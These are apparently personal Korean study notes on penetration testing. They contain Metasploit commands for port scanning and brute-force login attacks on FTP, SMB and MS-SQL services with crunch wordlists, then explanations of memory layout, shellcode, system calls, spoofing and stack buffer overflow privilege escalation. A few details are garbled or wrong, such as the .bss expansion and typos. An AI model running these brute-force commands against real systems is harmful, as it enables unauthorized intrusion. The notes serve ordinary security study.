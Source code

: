 1. msf
    1.  포트 스캔
        1.  ``service postgresql start``
        2.  ``msfdb init``
            1.  최초 한 번만
        3.  ``msfconsole``
        4.  ``db_nmap -sT -sV -O ip``
        5.  ``db_services``
    2.  brute-force-attack
        1.  준비
            1.  Crunch
                1.  무차별 대입 공격에 필요한 비밀번호 항목을 생성할 수 있다.
                2.  ``crunch 1 4 -f /usr/share/crunch/charset.lst numeric -o /root/passwords.txt``
            2.  ``cat >> /root/passwords.txt`` ``postgres``
            3.  ``cat >> /root/users.txt`` ``administrator`` ``sa`` ``root`` ``postgres``
        2.  시작
            1.  FTP Service
                1.  ``use auxiliary/scanner/ftp/ftp_login``
                2.  ``set rhosts ip``
                3.  ``set user_file /root/users.txt``
                4.  ``set pass_file /root/passwords.txt``
                5.  ``set stop_on_success true``
                6.  ``set threads 256``
                7.  ``run``
            2.  SMB Service
                1.  ``use auxiliary/scanner/smb/smb_login``
                2.  ``set rhosts ip``
                3.  ``set user_file /root/users.txt``
                4.  ``set pass_file /root/passwords.txt``
                5.  ``set stop_on_success true``
                6.  ``set threads 256``
                7.  ``run``
            3.  MS-SQL
                1.  ``use auxiliary/scanner/mssql/mssql_login``
                2.  ``set rhosts ip``
                3.  ``set rport 1433``
                4.  ``set user_file /root/users.txt``
                5.  ``set pass_file /root/passwords.txt``
                6.  ``set stop_on_success true``
                7.  ``set threads 256``
                8.  ``run``
            4.  MYSQL
                1.  3306
            5.  Postgresql
                1.  5432
2.  컴퓨터 메모리
    1.  RAM(Random Access Memeory)
        1.  저장된 어떤 데이터 조각이든 언제든지 읽을 수 있기 때문에 임의 접근이라고 함
    2.  Endian
        1.  Little Endian
        2.  Bing Endian
    3.  메모리 단편화
        1.  Segmentation의 개념
            1.  각 프로세스는 자신이 사용하는 메모리 영역에 접근하길 원한다.
            2.  이 때 한 프로세스가 다른 프로세스의 데이터를 덮어쓰는 일은 원하지 않는다.
            3.  그렇기 때문에 작은 조각으로 단편화되어 프로세스에 넘겨지게 된다.
            4.  레지스터는 이 단편화 조각을 저장하고 추적한다.
    4.  메모리 속 프로그램
        1.  아래와 같은 순서로 이어져 있으며, 낮은 주소부터 높은 주소까지다.
            1.  .text 섹션
                1.  함수가 저장된다.
                2.  해당 테스크를 실행하는 데 필요한 지시사항을 담고 있다.
                3.  읽기 전용이며 쓰려고 하면 단편화 오류를 일으킨다.
                4.  프로세스가 처음 적재된 런타임 시 크기가 고정된다.
            2.  .data 섹션
                1.  전역변수와 정적변수를 저장한다.
                2.  이 섹션의 크기는 런타임 시 고정된다.
            3.  .bss 섹션(Below Stack Section)
                1.  초기화 되지 않은 전역변수 및 정적변수를 저장한다.
            4.  Heap 섹션
                1.  동적으로 할당된 변수를 저장할 때 사용하며 낮은 메모리에서 높은 메모리로 할당된다.
                2.  maloc()과 free()함수로 제어한다.
            5.  Stack 섹션
                1.  함수 호출을 재귀적으로 추적하며 대부분의 시스템에서 높은 주소의 메모리에서 낮은 주소의 메모리로 할당한다.
                2.  이러한 특성 때문에 버퍼 오퍼플로 오류가 발생한다.
            6.  환경/인수 섹션
                1.  런타임 시 프로세스가 요구하는 시스템 수준 변수의 복사본을 저장
                2.  이 섹션이 쓰기 가능하기 때문에 형식 문자와 버퍼 오버플로 취약점을 통해 악용할 수 있다.
        2.  버퍼
            1.  프로세스에 의해 처리되기까지 데이터를 보관해두는 저장소
            2.  프로세스 메모리의 .data, .bss섹션에 메모리를 할당한다.
            3.  버퍼는 한 번 할당되면 고정된 길이를 가진다.
        3.  메모리 속 문자열
            1.  메모리에 저장된 연속적인 문자배열
        4.  포인터
            1.  다른 메모리 조각의 주소를 저장한 특수한 메모리 조각dㅇb
3.  셸코드(Shellcode)
    1.  업무를 수행하는 독립 바이너리 코드
    2.  커널과 통신하는 법
        1.  하드웨어 인터럽트
            1.  키보드의 비동기 신호
        2.  하드웨어 트랩
            1.  ``0으로 나눌 수 없음``과 같은 에러
        3.  소프트웨어 트랩
            1.  실행을 위해 예정된 프로세스에 대한 요청
            2.  윤리적 해커에게 가장 유용한 방법
    3.  커널은 사용자로부터 기초적인 시스템 수준 함수를 추출하고 시스템 호출을 통한 인터페이스를 제공한다.
4.  시스템 호출
    1.  ``execve``시스템 호출
        1.  ``$man 2 execve``
    2.  어셈블리 수준에서는 다음 레지스터가 시스템 호출시 로딩된다.
        1.  eax
            1.  시스템 호출의 16진수 값을 로딩하는 데 사용
        2.  ebx
            1.  첫 번째 파라미터
        3.  ecx
            1.  두 번째 파라미터
        4.  edx
            1.  세 번째 파라미터
        5.  esi
            1.  네 번째 파라미터
        6.  edi
            1.  다섯 번째 파라미터
            2.  다섯 개가 넘으면 파라미터 배열을 메모리에 저장하고 이 주소를 ``ebx``에 저장해야 된다.
    3.  동작 순서
        1.  레지스터가 로딩되면 ``int 0x80``어셈블리 명령어를 호출하고 소프트웨어 인터럽트를 발생하여 커널로 하여금 하던 일을 멈추고 인터럽트를 처리하도록 한다.
        2.  커널은 파라미터가 올바른지 확인하고 레지스터 값을 커널 메모리 공간에 복사하고 인터럽트 기술 표(IDT)를 참조하여 인터럽트를 처리한다.
5. Binary stripping
   1. Binary가 빌드된 후 strip유틸리티를 사용하여 관련된 정보, 심볼을 없애 바이너리 분석을 난독화한다.
6. Spoofing
   1. 다른 사람인 척 한다.
   2. 종류
      1. ARP Spoofing
         1. 네트워크 게이트웨이인 척
         2. 네트워크에는 HSRP(Hot Standby Router Protocol)기술이 있다. 두 라우터를 게이트웨이로 동작하게 하며, 가상 IP를 생성한다. 이 가상 IP주소는 두 라우터 사이를 왔다갔다 할 수 있어야 하는데, 어떤 ARP엔트리는 20분 타임아웃 시에만 업데이트를 한다. 이를 방지하고자 불필요한 ARP응답(Gratuitous ARP Response)를 보내는데, 이 패킷의 목적은 로컬 시스템의 ARP캐시를 업데이트하는 것이다. 이를 라우터가 하면 장점이 되지만 중간자(MITM: Man In The Middle)이 하면 ARP Spoofing이 된다. 두 사이의 중간자가 되면 서로 오가는 패킷을 가로챌 수 있다.
      2. DNS Spoofing
         1. DNS를 IP로 변환하는 과정을 조작
7. 스택의 동작 방식
   1. STACK(First-in, Last-out)
      1. 후입선출
   2. 메모리에서 각 프로세스는 자신의 스택을 메모리 스택 세그먼트 안에 갖고 있다. 가장 높은 메모리 주소에서 가장 낮은 메모리 주소 방향으로 스택이 늘어난다.
   3. 함수를 콜하면 EIP(Extended Instruction Pointer)가 스택에 저장되고 이가 복귀주소로 활용된다.
   4. 프롤로그(Prolog)
      1. 첫째로 호출한 프로그램의 EBP(Extended Base Pointer) 레지스터를 스택에 저장한다.
      2. 그리고 ESP(Extended Stack Pointer) 레지스터를 EBP에 저장한다.
      3. 그리고 ESP레지스터를 감소시켜 함수의 지역 변수용 공간을 만들고 구문을 실행할 기회를 얻게 된다.
   5. 에필로그(Epilog)
      1. 호출한 함수로 돌아가기 전 호출된 함수가 마지막으로 하는 일은 ESP를 EBP로 증가시켜서 스택을 지우는 것이다.
      2. 그 뒤에 저장된 EIP를 스택에서 팝해서 복귀한다.
   6. 버퍼 오버플로
      1. 변수를 지정하면 100프로 채워지지 않는다. 이 부분을 허용량 이상의 변수를 집어넣어서 오버플로를 일으킨다. 오버플로를 일으키면 EIP를 넘어서 다음 명령을 가리키는 영역을 침범한다. EIP는 실행할 다음 명령을 가리키고 함수가 실행된 다음 명령을 계속 실행하고자 함수 호출의 일부로 스택에 EIP의 복사본을 저장한다. 함수가 값을 반환할 때 저장된 EIP값에 영향을 미칠 수 있다면 손상된 EIP값을 스택으로부터 팝하여 EIP에 넣은 다음 이를 실행할 수 있다.
      2. 그렇다면 오버플로를 발생시키고 이 때 권한을 상승하는 등의 악성코드를 집어넣어서 강제로 권한을 올릴 수 있는 명령을 실행시킬 수 있게 된다.
